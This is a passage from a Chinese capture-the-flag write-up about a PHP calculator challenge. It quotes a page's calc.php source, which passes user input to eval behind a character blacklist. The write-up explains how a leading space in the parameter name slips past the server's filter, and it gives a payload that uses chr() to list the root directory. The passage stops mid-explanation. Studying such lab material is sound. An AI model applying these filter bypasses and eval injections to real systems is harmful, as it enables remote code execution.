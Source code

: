 通过观察JS源码可以发现，一个隐藏的php文件是"calc.php"

JS源码：

```javascript
    $('#calc').submit(function(){
        $.ajax({
            url:"calc.php?num="+encodeURIComponent($("#content").val()),
            type:'GET',
            success:function(data){
                $("#result").html(`<div class="alert alert-success">
            <strong>答案:</strong>${data}
            </div>`);
            },
            error:function(){
                alert("这啥?算不来!");
            }
        })
        return false;
    })
```

令人意想不到的是直接访问"calc.php"能看到源码（这合理吗？）

"calc.php"源码：

```php
<?php
error_reporting(0);
if(!isset($_GET['num'])){
    show_source(__FILE__);
}else{
        $str = $_GET['num'];
        $blacklist = [' ', '\t', '\r', '\n','\'', '"', '`', '\[', '\]','\$','\\','\^'];
        foreach ($blacklist as $blackitem) {
                if (preg_match('/' . $blackitem . '/m', $str)) {
                        die("what are you want to do?");
                }
        }
        eval('echo '.$str.';');
}
?>
```

源码提供了第二层过滤的信息，ban掉了很多空白字符。目标是利用eval实现RCE；第一层过滤体现在服务器上，检测参数num是否含有一些敏感字符。

1. 传参时通过在num前加一个空格来绕过第一层防火墙，原理是php在解析传参时会自动处理参数名前的空白字符，而服务器又会准确识别空白字符，这就导致服务器端与PHP端的处理出现差异，服务器认为是名为空格+num的参数被传了过来，因此不做防火墙检测；PHP端则去掉了空格，将传递的参数名依旧识别成num，因此内容正确的传递给了变量 `$_GET['num']` 但又绕过了服务器的防火墙。

2. 读取目录payload：

   ```php
   %20num=1;var_dump(scandir(chr(47)))
   ```

   scandir扫描目标目录下的内容并转化成对象格式，由于 `"/"` 中的引号被过滤，使用 `chr(47)` 替代，得到结果中发现：
